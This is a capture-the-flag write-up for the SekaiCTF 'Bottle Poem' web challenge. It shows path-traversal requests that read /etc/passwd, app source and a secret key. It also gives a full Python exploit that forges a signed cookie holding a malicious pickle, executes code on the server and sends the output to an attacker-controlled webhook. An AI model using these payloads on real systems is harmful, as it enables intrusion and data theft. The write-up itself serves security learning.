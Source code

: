 ```yaml
---
layout: post
current: post
cover:  assets/sekai/Ace314159/cover.png
navigation: True
title: "Bottle Poem"
date: 2022-11-03 10:00:00
tags: [SekaiCTF, web]
class: post-template
subclass: 'post'
author: Ace314159
---
```


For this web challenge, we had to utilize two different exploits to get the flag -- and one of them wasn't a web exploit!

## Setup

We're presented with a website where we can select different poems to view. When we click on a poem, we can see that the URL contains the name of a text file: `/show?id=spring.txt`.

## Local File Inclusion (LFI)

The first thing that comes to mind when we can access arbitrary files on a web server is Local File Inclusion (LFI). We tried it out by trying to access /etc/passwd `/show?id=../../etc/passwd`. We were successful! 

Next, we wanted to get the source code of the website for further analysis of where the flag could be. After some Googling, we found that we can read the `/proc/self/cmdline` file to get the command line arguments of the current process. This yielded `"python3", "-u", "/app/app.py"`. Thus, we can access `app.py` using `/show?id=../../app/app.py`, giving us this file:

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

## Getting Trolled

The code shows that there's an admin template that only an admin user can access. However, since we have LFI, we can just access the template directly: `/show?id=../../app/views/admin.html`. This gives us the template

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
    Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

No flag :(

## Pickle Fun

We had to keep looking. The next thing that came to mind was seeing if we could control the `session` variable. This wouldn't help us with the admin page, since we already know the admin template is useless, but maybe we can do something else with it. Looking at the source of `get_cookie`, we see that it calls `cookie_decode`, which looks like this:

```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

`pickle`! The code uses pickle to load arbitrary data from the cookie. This gives us Remote Code Execution (RCE), which we can use to search for the flag. The way we can get RCE using pickle is by pickling a class with the `__reduce__` method. It returns a tuple, where the first value is a function, and the second value is the arguments passed into the function. When `pickle.loads` is called, it will call the function with the arguments. We can use this in conjunction with the python `exec` function to get RCE.

Our final exploit just runs the flag executable (which we found using the same exploit strategy), and then sends the output as a payload to a webhook URL we control. (You can create webhook URLs with a site like [RequestBin](https://requestbin.com/).) Here's the class that we used in our final exploit:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""

class RCE:
    def __reduce__(self):
        return exec, (code,)
```


However, before we get RCE on the server, we need to find the secret the session cookie is encrypted with. Without that, we can't change the cookie. The secret is imported at the top of the web server file, so could we just load the imported file using LFI? Let's take a look at `/show?id=../../app/config/secret.py`:

```python
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Perfect! Now we just have to construct our payload! Looking near `cookie_decode`, we see `cookie_encode`, which looks like this:

```python
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, -1))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
```

After stealing that code, we can complete our exploit.

```python
data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

And we have the flag! Here's the full code:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""


class RCE:
    def __reduce__(self):
        return exec, (code,)


data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

Flag: `SEKAI{W3lcome_To_Our_Bottle}`